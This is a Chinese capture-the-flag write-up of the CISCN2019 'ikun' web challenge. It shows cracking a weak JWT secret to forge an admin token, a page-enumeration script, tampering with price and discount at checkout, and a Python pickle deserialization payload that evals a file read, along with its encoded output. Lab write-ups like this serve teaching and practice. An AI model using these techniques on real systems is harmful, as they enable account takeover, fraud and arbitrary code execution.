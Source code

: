 # \[CISCN2019 华北赛区 Day1 Web2]ikun

## \[CISCN2019 华北赛区 Day1 Web2]ikun

## 考点

* JWT
* 逻辑漏洞
* tornado代码审计
* pickle反序列化

## wp

注册登录，提示剩余金额1000，并且在cookie中有JWT字段

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFhYWEifQ.bJejEdbt0h9U-vvnfoUAF7JFOPy0o6LqHQnITMhYL2I
```

在[jwt.io](https://jwt.io)上看一下，提示需要密钥

![](<../../.gitbook/assets/image (13) (1) (1).png>)

可以使用[`jwtcrack`](https://github.com/brendan-rius/c-jwt-cracker)破解密钥，结果是1Kun，username改成admin，重新生成JWT

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```

回到个人中心，可以看到提示

![](<../../.gitbook/assets/image (12) (1) (1) (1).png>)

```
>>> s='\\u8fd9\\u7f51\\u7ad9\\u4e0d\\u4ec5\\u53ef\\u4ee5\\u4ee5\\u8585\\u7f8a\\u6bdb\\uff0c\\u6211\\u8fd8\\u7559\\u4e86\\u4e2a\\u540e\\u95e8\\uff0c\\u5c31\\u85cf\\u5728\\u006c\\u0076\\u0036\\u91cc'
>>> s.encode('utf8').decode('unicode_escape')
'这网站不仅可以以薅羊毛，我还留了个后门，就藏在lv6里'
```

然后找lv6在哪儿，写爬虫爆破，在181页

```php
import requests

url = 'http://d34fe1a5-ca55-4b0b-9f8e-52d8f8a89f48.node4.buuoj.cn:81/shop?page=2'

for i in range(1,999999):
    url = f'http://d34fe1a5-ca55-4b0b-9f8e-52d8f8a89f48.node4.buuoj.cn:81/shop?page={str(i)}'
    r = requests.get(url)
    if '/static/img/lv/lv6' in r.text:
        print(url)
        break
```

![](<../../.gitbook/assets/image (16) (1) (1) (1) (1) (1).png>)

给的钱不够，应该是个逻辑漏洞，抓包看看，在结算的时候，有个折扣的参数，这里是打了8折

![](<../../.gitbook/assets/image (9) (1) (1).png>)

把price和discount都改成很低，看到返回了一个地址：`/b1g_m4mber`

![](<../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png>)

直接访问可以看到提示，给了源码

![](<../../.gitbook/assets/image (11) (1) (1) (1) (1).png>)

`static/asd1f654e683wq/www.zip`下载源码，直接找路由吧，在`sshop/views/__init__.py`文件下

```python
handlers = [
    (r'/', ShopIndexHandler),
    (r'/shop', ShopListHandler),
    (r'/info/(\d+)', ShopDetailHandler),
    (r'/shopcar', ShopCarHandler),
    (r'/shopcar/add', ShopCarAddHandler),
    (r'/pay', ShopPayHandler),
    (r'/user', UserInfoHandler),
    (r'/user/change', changePasswordHandler),
    (r'/pass/reset', ResetPasswordHanlder),
    (r'/login', UserLoginHanlder),
    (r'/logout', UserLogoutHandler),
    (r'/register', RegisterHandler),
    (r'/b1g_m4mber', AdminHandler)
]
```

发现在`AdminHandler`中调用了`pickle.loads`，由此切入

```php
class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

`pickle.loads`把字符串转换成对象，`get_argument`用于获取GET或POST的参数，`urllib.unquote`是python2的用法，然后就可以构造pickle反序列化了

```python
# python2
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a
```

得到结果

```
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```

回到`/b1g_m4mber`，把输入框的`hidden`删掉

![](<../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png>)

提交payload

![](<../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png>)

结果

![](<../../.gitbook/assets/image (12) (1) (1).png>)

## 小结

1. 破解JWT的密钥可以使用[jwtcrack](https://github.com/brendan-rius/c-jwt-cracker)，在kali中使用
